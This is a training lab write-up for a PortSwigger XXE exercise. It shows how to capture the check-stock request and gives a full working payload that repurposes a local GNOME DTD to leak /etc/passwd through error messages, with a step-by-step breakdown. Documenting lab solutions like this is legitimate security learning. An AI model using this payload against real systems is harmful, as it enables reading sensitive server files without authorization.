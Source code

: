 
### Exploiting XXE to retrieve data by repurposing a local DTD : EXPERT

---


> Hint:
`Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.`


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](./screenshots/check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](./screenshots/lab7-1.png)

> Similar to [[Portswigger/XXE Injection/Lab 6|Lab 6]], it is a blind injection, and we can only use parameterized entities.
> To try and invoke error messages, we try to find a local DTD and redefine an element to cause the error message without using an external entity.
> Given by the hint, the file with the DTD: `/usr/share/yelp/dtd/docbookx.dtd` with the entity:`ISOamso`.

> We can create the payload:
```XML
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

1. Given an external DTD at location `/usr/share/yelp/dtd/docbookx.dtd` that has an entity called `ISOamso`.
2. We redefine the `ISOamso` to contain the error message payload as in [[Portswigger/XXE Injection/Lab 6|Lab 6]].
	1.  Create an XML parameter entity called `file` that contains the contents of the file `/etc/passwd`.
	2.  Create an XML parameter entity called `eval`. In is another parameter entity called `error`.
	3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
	4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
	5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.
3. We use the Web Encoding for special characters in recursive definitions of entities.
4. Finally, we call the `local_dtd` entity which triggers the error message.

> Adding this payload into the `POST` request and sending it gives the error message.

![](./screenshots/lab7-2.png)

---
